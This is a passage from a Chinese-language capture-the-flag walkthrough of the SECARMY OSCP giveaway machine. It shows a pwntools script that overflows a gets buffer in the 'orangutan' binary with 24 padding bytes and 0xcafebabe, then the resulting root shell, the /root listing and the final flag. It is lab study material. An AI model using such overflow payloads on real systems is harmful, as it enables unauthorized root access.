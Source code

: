 ```
  }
  return 0;
}
```

可以看到可以通过 gets 修改 local_10 为 0xcafebabe 来实现获取 root shell，具体如下：

1、远程启动 orangutan

```
nueve@svos:~$ socat TCP-LISTEN:8000 EXEC:./orangutan
```

2、本地 pwn

```
kali@kali:~$ cat test.py 
from pwn import *
offset = b"A" * 24
secret= b"\xbe\xba\xfe\xca"
payload = offset + secret
io = remote('192.168.132.141', 8000)
print(io.recvline())
print(io.recvline())
io.sendline(payload)
io.interactive()
kali@kali:~$ python3 test.py 
[+] Opening connection to 192.168.132.141 on port 8000: Done
b'hello pwner \n'
b'pwnme if u can ;) \n'
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root),1009(nueve)
$ pwd
/home/nueve
$ cd /root
$ ls -all
total 76
drwx------  8 root root  4096 Oct 22 09:22 .
drwxr-xr-x 25 root root  4096 Oct 18 14:42 ..
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  4 root root  4096 Oct  7 14:09 .cache
drwx------  2 root root  4096 Sep 25 11:48 .elinks
drwxr-xr-x  3 root root  4096 Oct  5 08:39 .gem
drwx------  3 root root  4096 Oct  7 14:09 .gnupg
drwxr-xr-x  3 root root  4096 Sep 22 11:21 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rwxrwxr-x  1 tres tres    73 Sep 27 14:23 pw.sh
-rw-r--r--  1 root root   200 Oct 20 17:48 root.txt
-rw-r--r--  1 root root    66 Sep 27 14:31 .selected_editor
drwx------  2 root root  4096 Sep 22 11:19 .ssh
-rwxr-xr-x  1 root root 18792 Oct 21 17:49 svos_password_recovery
-rw-------  1 root root  1250 Oct  7 14:31 .viminfo
$ cat root.txt
Congratulations!!!

You have finally completed the SECARMY OSCP Giveaway Machine

Here's your final flag segment: flag10{33c9661bfd}

Head over to https://secarmyvillage.ml/ for submitting the flags!
```
